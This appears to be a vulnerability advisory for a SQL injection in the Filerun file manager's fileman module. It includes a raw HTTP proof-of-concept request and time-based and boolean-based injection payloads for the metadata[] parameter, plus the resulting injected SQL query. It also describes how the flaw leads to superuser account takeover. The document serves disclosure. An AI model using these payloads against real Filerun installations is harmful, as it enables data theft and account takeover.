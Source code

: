 # CVE-XXXX-XXXXX (Filerun)

**CVE-ID:** CVE-2022-XXXXX

**Affected Product:** Filerun

**Affected Versions:** Update 20220202

**Vulnerability:** SQL-Injection

**Vendor URL:** [https://filerun.com/](https://filerun.com/)

**Status:** Fixed (silently)

**Severity:** High


## Description
With a normal user account, an attacker can inject custom SQL statements into the `metadata[]` parameter of the `fileman` module.

This allows access to user account data, filerun settings and session information.
The impact of the complete exploit chain depends on the filerun setup.
If the session information is not stored in files but in the "session" table, you can easily takeover the superuser account.
If the SMTP settings match the email account of the super user, you may reset its password and fetch the reset mail.


## Proof of Concept
```
POST /?module=fileman&section=get&page=grid HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 68
Origin: http://localhost
Connection: close
Referer: http://localhost/
Cookie: FileRunSID=c82f680f8892c8f5655923e2b5c4d6dc

metadata%5B%5D=13881157SQLiMe&path=%2FROOT%2FHOME
```

Payload used Timebased:
```
metadata%5b%5d=13881157')%20AND%20(SELECT%207003%20FROM%20(SELECT(SLEEP(5)))AGYO)%20AND%20('ltyE'='ltyE&path=%2fROOT%2FHOME
```

Payload used Boolean based:
```
metadata[]=13881157')+OR+NOT+('1111'='1111&path=/ROOT/HOME
```

The SQL-Statement where we inject:

```
SELECT * FROM df_modules_metadata_values WHERE ((file_id = '13') AND (field_id IN ('13881157') OR NOT '1111'='1111'))) ORDER BY id DESC
```
